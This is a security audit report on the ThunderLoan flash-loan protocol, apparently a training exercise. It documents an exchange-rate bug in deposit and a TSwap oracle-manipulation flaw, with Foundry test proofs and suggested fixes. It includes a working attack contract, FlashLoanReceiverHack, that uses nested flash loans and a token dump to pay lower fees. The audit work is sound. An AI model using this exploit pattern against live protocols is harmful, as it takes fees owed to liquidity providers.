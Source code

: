 ### [H-1] Incorrect `updateExchangeRate` usage in `ThunderLoan:deposit` causes protocol to think it has more fees than it actually does, which blocks redemption of funds and incorrect exchange rate calculation

**Description:** In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between asset tokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give to liquidity providers.
However, the `deposit` function in the `ThunderLoan` contract uses the `updateExchangeRate` function incorrectly as it updates the exchange rate without collecting fees.

```javascript
    function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);

        assetToken.mint(msg.sender, mintAmount);

        uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts of this bug:

1. The `ThunderLoan::redeem` function is blocked from redeeming the total liquidity provider balance, because the protocol wants to transfer more than it should.
2. Rewards are calculated incorrectly, leading to liquidity providers getting more rewards than they should.

**Proof of Concept:**

1. LP deposits
2. User takes out a flash loan
3. LP tries to redeem their funds
4. The redeem function reverts

Place the following into `ThunderLoan.t.sol`:

```javascript
function test_audit_RedeemsAfterLoan() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = AMOUNT * 10;
    uint256 calculatedFee = thunderLoan.getCalculatedFee(
        tokenA,
        amountToBorrow
    );

    vm.startPrank(user);
    tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
    thunderLoan.flashloan(
        address(mockFlashLoanReceiver),
        tokenA,
        amountToBorrow,
        ""
    );
    vm.stopPrank();

    uint256 amountToRedeem = type(uint256).max;

    vm.startPrank(liquidityProvider);
    thunderLoan.redeem(tokenA, amountToRedeem);
    vm.stopPrank();
}
```

**Recommended Mitigation:** Remove the incorrectly used `updateExchangeRate` function call from the `deposit` function.

```diff
    function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);

        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM. Thr price of a token is determined by how many reserves are on either side of pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the tokens in the same transaction, essentially ignoring protocol fees.

**Impact:** Liquidity providers will receive drastically reduced fees for providing liquidity.

**Proof of Concept:**

1. User takes a flash loan from `ThunderLoan` for 1k `tokenA`. They are charged the original fee `fee1`. During the flash loan, user does the following:
    1. User sells 1k `tokenA`, tanking the price.
    2. Instead of repaying right away, the user takes out another flash loan for another 1k `tokenA`.
    3. Due to the fact that `ThunderLoan` uses `TSwap` as a price oracle, the price of `tokenA` is still low, so the user is charged a lower fee `fee2`.
    4. User repays 2nd flash loan.
    5. User repays 1st flash loan.

Place the following test and contract into `ThunderLoan.t.sol`:

```javascript
    function test_audit_ManipulatesOraclePrice() public {
        // 1. Setup contracts
        tokenA = new ERC20Mock();
        BuffMockPoolFactory mockPoolFactory = new BuffMockPoolFactory(
            address(weth)
        );
        BuffMockTSwap tSwapPool = BuffMockTSwap(
            mockPoolFactory.createPool(address(tokenA))
        );

        thunderLoan = new ThunderLoan();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(mockPoolFactory));

        // 2. Fund T-Swap
        uint256 lpFunds = 100e18;
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, lpFunds);
        tokenA.approve(address(tSwapPool), lpFunds);
        weth.mint(liquidityProvider, lpFunds);
        weth.approve(address(tSwapPool), lpFunds);
        tSwapPool.deposit(lpFunds, lpFunds, lpFunds, block.timestamp);
        vm.stopPrank();

        // 3. Fund ThunderLoan
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // 4. Take out 2 flashloans
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("Normal fee cost: ", normalFeeCost);
        // 0.296147410319118389

        uint256 amoutToBorrow = 50e18;
        FlashLoanReceiverHack hacker = new FlashLoanReceiverHack(
            tSwapPool,
            thunderLoan,
            address(thunderLoan.getAssetFromToken(tokenA))
        );

        vm.startPrank(user);
        tokenA.mint(address(hacker), amoutToBorrow * 100);
        weth.mint(address(hacker), amoutToBorrow * 100);
        thunderLoan.flashloan(address(hacker), tokenA, amoutToBorrow, "");
        vm.stopPrank();

        uint256 attackFeeCost = hacker.fee1() + hacker.fee2();
        console2.log("Attack fee cost: ", attackFeeCost);

        assertLt(
            attackFeeCost,
            normalFeeCost,
            "Attack fee cost should be less"
        );
    }
```

```javascript
    contract FlashLoanReceiverHack is IFlashLoanReceiver {
        BuffMockTSwap internal s_tSwapPool;
        ThunderLoan internal s_thunderLoan;
        address internal s_repayAddress;

        uint256 public fee1;
        uint256 public fee2;
        bool internal attacked;

        constructor(
            BuffMockTSwap tSwapPool,
            ThunderLoan thunderLoan,
            address repayAddress
        ) {
            s_tSwapPool = tSwapPool;
            s_thunderLoan = thunderLoan;
            s_repayAddress = repayAddress;
        }

        function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address /*initiator*/,
            bytes calldata /*params*/
        ) external returns (bool) {
            if (!attacked) {
                attacked = true;
                fee1 = fee;

                uint256 tokensBought = s_tSwapPool.getOutputAmountBasedOnInput(
                    50e18,
                    100e18,
                    100e18
                );
                IERC20(token).approve(address(s_tSwapPool), 50e18);
                s_tSwapPool.swapPoolTokenForWethBasedOnInputPoolToken(
                    50e18,
                    tokensBought,
                    block.timestamp
                );

                // // Call flashloan again
                s_thunderLoan.flashloan(address(this), IERC20(token), 50e18, "");

                // // Repay
                IERC20(token).transfer(s_repayAddress, amount + fee);
            } else {
                fee2 = fee;

                // Repay
                IERC20(token).transfer(s_repayAddress, amount + fee);
            }

            return true;
        }
    }
```

**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed or Uniswap TWAP fallback oracle.
